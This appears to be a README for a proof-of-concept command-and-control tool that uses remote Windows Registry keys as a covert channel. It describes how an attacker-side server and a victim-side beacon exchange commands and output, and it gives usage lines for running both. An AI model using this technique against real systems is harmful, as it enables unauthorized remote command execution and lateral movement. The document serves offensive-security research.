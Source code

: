 # Everything Is A Shell... An asyncrounous shell at least...



## Disclaimer
The shells in this repository are all Proof-of-Concept and have only been tested in my own lab - Enjoy :)

  ## Concept for this repository
This repository is made to explore untraditional ways of establishing command and control (C2) on Microsoft Windows systems. The shells in this repository are asynchronous just like Cobalt Strikes shells. This means that the client (beacon) will check-in at a given interval (sleep-timer) for any new commands from the server (C2). If a command is found, the beacon will execute it and post the result back to the server. 

At this moment, the repository only has a C2 using Windows Registry keys, but I hope to add more in the future. 

## C2 using Windows registry keys

### Brief description: 
This shell is based on Windows Registry keys. Yes, registry keys as in regedit.exe. The idea comes from the fact, that Windows allows for users (with the correct permissions) to read, write and/or delete registry keys and values on remote systems using the WinReg Protocol (MS-RRP). The "protocol" is built on top of the RPC protocol and is described by Microsoft: (https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78). Using custom code, it is possible to create a client-server-relationsship by having certain registry keys located on the server that the client can interact with.  

### Demo:
<p align="center">
// Your content
[![Demo](https://img.youtube.com/vi/jOPCbK-WF1M/0.jpg)](https://www.youtube.com/watch?v=jOPCbK-WF1M)
</p>

**Requirements:** 
The Remote Registry Service needs to be enabled on the server, and the user trying to read & write to the remote registry needs to have the correct permissions.

**Limitations:** 
Since the traffic is based on RPC, it should only really be suitable for lateral movement on local networks, however I have not tested it over the internet. 

**Security considerations:**
The permissions allows for anyone to connect to the servers registry database. Each registry key is protected by its own SACL, and so the server is only as insecure as the applied permissions on each key. The consequences could be dire :D

### How it works:
1. When the server starts, the Remote Registry Service is enabled and started. 
2. The registry key HKEY_LOCAL_MACHINE\Software\RegistryC2\<user-defined> is created along with the following registry values: cmd, output & sleep. Think of this used defined registry key as the port (LHOST).
3. Permissions are then set for the user "Everyone" on the newly created registry key.
4. Permissions are likewise set on the key: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurePipeServers\winreg. This ensures that any client can authenticate to the server. (N.B. On exiting/closing of the server, these permissions are removed again.) 
5. The client will connect to the C2 server using WinReg, and read the newly created registry key for the value of "sleep", to determine how often to check-in. 
6. When it is time to check-in, the client executes the command found in the "cmd"-value. 
7. The result of the command is written as a string to the C2's registry keys "output" value. 
8. While running, the server will look for new updates to the "output" value and prints it back to the attacker.

### Usage:
**Setup the server on the attackers machine (listener/C2):**
``` 
RegC2Server.exe <Registry key name to use with the client>
RegC2Server.exe victim01
```
**Starting the client on the victim (beacon):**
```
RegC2Client.exe <host> <Registry key name used to start the server>
RegC2Client.exe ws01 victim01
```

**Since this is a POC, only the following commands have been implemented:**
```
>help
sleep <int>      Set the sleep time to the value of int
cmd <command>    cmd to execute
exit             Exit the application gracefully
```


### Screenshot:


Win32 apis 

Wireshark traffic
